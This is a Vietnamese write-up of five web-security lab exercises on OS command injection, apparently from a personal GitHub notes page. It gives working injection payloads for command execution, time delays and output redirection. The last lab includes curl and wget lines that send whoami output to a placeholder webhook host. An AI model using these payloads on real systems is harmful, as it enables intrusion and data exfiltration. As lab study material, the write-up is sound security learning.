









# Lab 01: OS command injection, simple case
Đề cung cấp thông tin lỗi Command Injection nằm trong chức năng kiểm tra số lượng hàng còn trong kho.  

Duyệt thử chức năng Check Stock, mình tìm được endpoint `/product/stock` gửi yêu cầu và nhận phản hồi là số lượng hàng trong kho.  
  

Đề cung cấp thông tin chương trình sẽ sử dụng 2 tham số trong gói tin đưa vào shell. Thử với payload `;echo test #`  
   

Vậy payload cuối cùng `;whoami #` là hoàn thành lab.  
   

# Lab 02: Blind OS command injection with time delays
Đề cung cấp thông tin lỗi Command Injection nằm trong chức năng gửi feedback và yêu cầu phải delay phản hồi 10s.  

Delay thì mình nghĩ ngay tới `sleep 10`. Đồng thời, khi duyệt sơ chức năng Submit Feedback, sau khi bấm gửi, mình phát hiện gói tin ở endpoint `POST /feedback/submit` với các tham số như `name`, `email`,...  
Thử chèn `; sleep 10 #` vào các tham số POST trong gói tin ở endpoint `POST /feedback/submit`, thành công khi chèn vào tham số `email`  
  

Ngoài sleep có thể sử dụng ping localhost `ping -c 10 127.0.0.1` để delay.  

# Lab 03: Blind OS command injection with output redirection
Đề cung cấp thông tin lỗi Command Injection nằm trong chức năng gửi feedback và yêu cầu thực thi shell `whoami` và lưu kết quả vào một file ở đường dẫn `/var/www/images/`

Duyệt sơ chức năng Submit Feedback, sau khi bấm gửi, mình phát hiện gói tin ở endpoint `POST /feedback/submit` với các tham số như `name`, `email`,...   

Đề bài đề cập đến đường dẫn hình ảnh, mình thử truy cập một ảnh bất kỳ ở tab mới, mình phát hiện thêm endpoint `GET /image?filename=21.jpg`. Mình đoán endpoint này sẽ tìm và trả về file với tên lưu trong biến `filename` ở đường dẫn `/var/www/images`  

Mình thử gửi payload `;whoami > /var/www/images/shell.txt #`, sau đó truy cập endpoint tìm hình ảnh với tham số `filename=shell.txt`   
  
  

# Lab 04: Blind OS command injection with out-of-band interaction
Đề cung cấp thông tin lỗi Command Injection nằm trong chức năng gửi feedback và yêu cầu thực thi shell gửi yêu cầu DNS lookup đến webhook.  

DNS lookup thì mình nghĩ tới command `nslookup`, payload `;nslookup WEBHOOK-DOMAIN #`  
  

# Lab 05:  Blind OS command injection with out-of-band data exfiltration
Đề cung cấp thông tin lỗi Command Injection nằm trong chức năng gửi feedback và yêu cầu thực thi shell `whoami` và gửi kết quả thực thi tới webhook.  

Có 2 cách thực hiện, cách 1 là sử dụng Command Substitution với `$()` hoặc \` \`, cách 2 là sử dụng `curl --data-binary @-`  

**Cách 1** Command Substitution `$(whoami)`, đại khái command trong `$()` hoặc \` \` sẽ được thực hiện trước, tham khảo https://www.gnu.org/software/bash/manual/html_node/Command-Substitution.html  
Payload `;wget WEBHOOK-URL?a=$(whoami) #` bắt được flag.    
  

**Cách 2** Sử dụng chức năng --data-binary của curl để gửi kết quả thực thi  
Payload `;whoami | curl WEBHOOK-URL --data-binary @- #` bắt được flag.  
  

Tham khảo thêm một số cách khác như gửi file ví dụ `whoami | shell.txt && curl -d @filename [URL]`, `whoami | shell.txt && wget --post-file=FILE-PATH [URL]`  